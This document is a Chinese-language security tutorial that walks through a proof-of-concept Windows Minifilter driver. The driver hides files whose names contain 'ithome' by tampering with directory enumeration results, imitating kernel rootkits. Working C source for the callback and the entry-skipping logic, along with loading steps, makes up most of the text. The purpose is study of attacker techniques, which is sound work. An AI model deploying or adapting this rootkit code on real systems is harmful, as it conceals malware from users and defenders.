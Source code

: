 # 【第 28 話】Minifilter 隱藏檔案

## 文章大綱
在[【第 27 話】Minifilter 保護檔案](/asset/第%2027%20話)說明了 Minifilter 的概念，然後實作保護檔案的功能。在[【第 20 話】BYOVD 攻擊](/asset/第%2020%20話)中提到 GhostEmperor 會利用有漏洞的驅動程式隱藏檔案，因此這篇要模仿 Kernel Rootkit，使用 Minifilter 從 Kernel 隱藏檔案。


## 隱藏檔案
用 Minifilter 隱藏檔案的概念很簡單。當一般程式在列舉檔案時，通常使用應用層的 Windows API，再由 Kernel 發送 `IRP_MJ_DIRECTORY_CONTROL` 請求。惡意驅動程式可以透過註冊 Minifilter Callback 攔截 IRP，讓檔案列舉的反回結果跳過惡意程式要隱藏的檔案，就可以成功隱藏了。

![](HideFile.png)

具體來說要跳過檔案列舉隱藏特定檔案，需要先了解 [PFILE_ID_BOTH_DIR_INFORMATION](https://learn.microsoft.com/en-us/windows-hardware/drivers/ddi/ntifs/ns-ntifs-_file_id_both_dir_information) 結構。在 Minifilter Callback 中我們會拿到這個結構的資訊，其中的 `NextEntryOffset` 就是指目前的 Entry 所代表的檔案到下一個 Entry 隔了多遠。

```c
typedef struct _FILE_ID_BOTH_DIR_INFORMATION {
  ULONG         NextEntryOffset;
  ULONG         FileIndex;
  LARGE_INTEGER CreationTime;
  LARGE_INTEGER LastAccessTime;
  LARGE_INTEGER LastWriteTime;
  LARGE_INTEGER ChangeTime;
  LARGE_INTEGER EndOfFile;
  LARGE_INTEGER AllocationSize;
  ULONG         FileAttributes;
  ULONG         FileNameLength;
  ULONG         EaSize;
  CCHAR         ShortNameLength;
  WCHAR         ShortName[12];
  LARGE_INTEGER FileId;
  WCHAR         FileName[1];
} FILE_ID_BOTH_DIR_INFORMATION, *PFILE_ID_BOTH_DIR_INFORMATION;
```

所以如果要隱藏特定的檔案，只要竄改目前的 Entry 的上一個 Entry 的 `NextEntryOffset`，加大 `NextEntryOffset` 的值，理論上目前的 Entry 就可以在列舉時被跳過。但是要隱藏的檔案所在的 Entry 會有以下四種情況，在下一步講解程式時會說明要做的不同處理。
- 是第一個 Entry 也是最後一個 Entry
- 是第一個 Entry 但不是最後一個 Entry
- 不是第一個 Entry 但是最後一個 Entry
- 不是第一個 Entry 也不是最後一個 Entry


## 寫程式
程式主要參考 [JKornev/hidden](https://github.com/JKornev/hidden)，我簡化與改寫它的實作並加了一些註解，完整的專案也放在我的 GitHub [zeze-zeze/2023iThome](https://github.com/zeze-zeze/2023iThome/tree/master/HideFile)。

在[【第 27 話】Minifilter 保護檔案](/asset/第%2027%20話)我們是設 `IRP_MJ_CREATE` 的 Callback 禁止訪問檔案，這篇則是設 `IRP_MJ_DIRECTORY_CONTROL` 的 Callback。在 Callback 中取得這個 IRP 送來的資訊後，根據 `FileInformationClass` 做對應的處理，為了簡化這個 PoC 我們只看 `FileIdBothDirectoryInformation`，要做得更完整的話還可以實作不同的 `FileInformationClass`。

```c
FLT_POSTOP_CALLBACK_STATUS FltDirCtrlPostOperation(PFLT_CALLBACK_DATA Data, PCFLT_RELATED_OBJECTS FltObjects,
                                                   PVOID CompletionContext, FLT_POST_OPERATION_FLAGS Flags)
{
    UNREFERENCED_PARAMETER(FltObjects);
    UNREFERENCED_PARAMETER(CompletionContext);
    UNREFERENCED_PARAMETER(Flags);

    PFLT_PARAMETERS params = &Data->Iopb->Parameters;
    PFLT_FILE_NAME_INFORMATION fltName;

    if (!NT_SUCCESS(Data->IoStatus.Status))
        return FLT_POSTOP_FINISHED_PROCESSING;

    // 取得 Minifilter Callback 的相關資訊
    NTSTATUS status = FltGetFileNameInformation(Data, FLT_FILE_NAME_NORMALIZED, &fltName);
    if (!NT_SUCCESS(status))
    {
        return FLT_POSTOP_FINISHED_PROCESSING;
    }

    // 根據 FileInformationClass 做對應的處理，這個 PoC 只需要看 FileIdBothDirectoryInformation
    switch (params->DirectoryControl.QueryDirectory.FileInformationClass)
    {
        case FileIdBothDirectoryInformation:
            status = CleanFileIdBothDirectoryInformation(
                (PFILE_ID_BOTH_DIR_INFORMATION)params->DirectoryControl.QueryDirectory.DirectoryBuffer, fltName);
            break;
        default:
            status = STATUS_SUCCESS;
    }

    Data->IoStatus.Status = status;
    return FLT_POSTOP_FINISHED_PROCESSING;
}
```

在處理 `FileIdBothDirectoryInformation` 的函數中，我們要隱藏特定的檔案，所以先比對檔名中有沒有包含 `ithome`，有的話再判斷這個檔案所在的 Entry 是不是第一個或最後一個，根據這點做不同處理。
- 是第一個 Entry 也是最後一個 Entry：直接在 Minifilter Callback 回傳 `STATUS_NO_MORE_ENTRIES`
- 是第一個 Entry 但不是最後一個 Entry：把後面所有的 Entry 往前挪，把要隱藏的 Entry 蓋掉
- 不是第一個 Entry 但是最後一個 Entry：把倒數第二個 Entry 的 `NextEntryOffset` 改成 0
- 不是第一個 Entry 也不是最後一個 Entry：把上一個 Entry 的 `NextEntryOffset` 加上目前 Entry 的 `NextEntryOffset`

```c
NTSTATUS CleanFileIdBothDirectoryInformation(PFILE_ID_BOTH_DIR_INFORMATION info, PFLT_FILE_NAME_INFORMATION fltName)
{
    UNREFERENCED_PARAMETER(fltName);
    PFILE_ID_BOTH_DIR_INFORMATION prevInfo = NULL;
    NTSTATUS status = STATUS_SUCCESS;

    while (TRUE)
    {
        WCHAR buffer[0x101] = {0};
        ULONG length = info->FileNameLength > 0x100 ? 0x100 : info->FileNameLength;
        wcsncpy(buffer, info->FileName, length);

        // 確認是檔案類型，然後比對檔案路徑中有沒有 ithome
        if (!(info->FileAttributes & FILE_ATTRIBUTE_DIRECTORY) && wcsstr(buffer, L"ithome"))
        {
            // 確認要隱藏的 Entry 是不是第一個檔案
            if (prevInfo != NULL)
            {
                // 確認要隱藏的 Entry 是不是最後一個檔案
                if (info->NextEntryOffset != 0)
                {
                    // 如果要隱藏的 Entry 不是第一也不是最後一個檔案，
                    // 則把上一個 Entry 的 Offset 加上要隱藏 Entry 的 Offset 來跳過要隱藏的 Entry
                    prevInfo->NextEntryOffset += info->NextEntryOffset;
                }
                else
                {
                    // 如果要隱藏的 Entry 不是第一個檔案，但是最後一個檔案，
                    // 則把上一個 Entry 的 Offset 改成 0 略過要隱藏的 Entry
                    prevInfo->NextEntryOffset = 0;
                    status = STATUS_SUCCESS;
                    break;
                }

                RtlFillMemory(info, sizeof(FILE_ID_BOTH_DIR_INFORMATION), 0);
            }
            else
            {
                // 確認要隱藏的 Entry 是不是最後一個檔案
                if (info->NextEntryOffset != 0)
                {
                    // 如果要隱藏的 Entry 是第一個檔案，但不是最後一個檔案，
                    // 就把之後的 Entry 所有的資料全都往前複製，把要隱藏的 Entry 蓋掉
                    PFILE_ID_BOTH_DIR_INFORMATION nextInfo =
                        (PFILE_ID_BOTH_DIR_INFORMATION)((PUCHAR)info + info->NextEntryOffset);
                    UINT32 moveLength = 0;
                    while (nextInfo->NextEntryOffset != 0)
                    {
                        moveLength += nextInfo->NextEntryOffset;
                        nextInfo = (PFILE_ID_BOTH_DIR_INFORMATION)((PUCHAR)nextInfo + nextInfo->NextEntryOffset);
                    }

                    moveLength += FIELD_OFFSET(FILE_ID_BOTH_DIR_INFORMATION, FileName) + nextInfo->FileNameLength;
                    RtlMoveMemory(info, (PUCHAR)info + info->NextEntryOffset, moveLength);
                    continue;
                }
                else
                {
                    // 如果要隱藏的 Entry 是第一也是最後一個檔案，就直接當成沒有任何檔案
                    status = STATUS_NO_MORE_ENTRIES;
                    break;
                }
            }
        }

        // 確認還有沒有下一個 Entry，有的話就繼續檢查
        if (info->NextEntryOffset)
        {
            prevInfo = info;
            info = (PFILE_ID_BOTH_DIR_INFORMATION)((PCHAR)info + info->NextEntryOffset);
        }
        else
        {
            break;
        }
    }

    return status;
}
```

## 測試
開啟 VM，記得要在本機開啟 vmmon64.exe，並在 boot options 按 F8 選擇 `Disable Driver Signature Enforcement`。

1. 建立一個包含 `ithome` 字串的檔案
2. 安裝 [HideFile.inf](https://github.com/zeze-zeze/2023iThome/blob/master/HideFile/bin/HideFile.inf)
3. 載入 [HideFile.sys](https://github.com/zeze-zeze/2023iThome/blob/master/HideFile/bin/HideFile.sys)
4. 這時嘗試按 F5 重新整理 Explorer，會發現檔案被隱藏了


## 參考資料
- [JKornev/hidden](https://github.com/JKornev/hidden)
- [Windows File System Minifilter Driver Development Tutorial](https://www.apriorit.com/dev-blog/675-driver-windows-minifilter-driver-development-tutorial)
- [microsoft/Windows-driver-samples - filesys/miniFilter](https://github.com/microsoft/Windows-driver-samples/tree/main/filesys/miniFilter)
- [How to Develop a Windows File System Minifilter Driver: Complete Tutorial](https://www.apriorit.com/dev-blog/675-driver-windows-minifilter-driver-development-tutorial)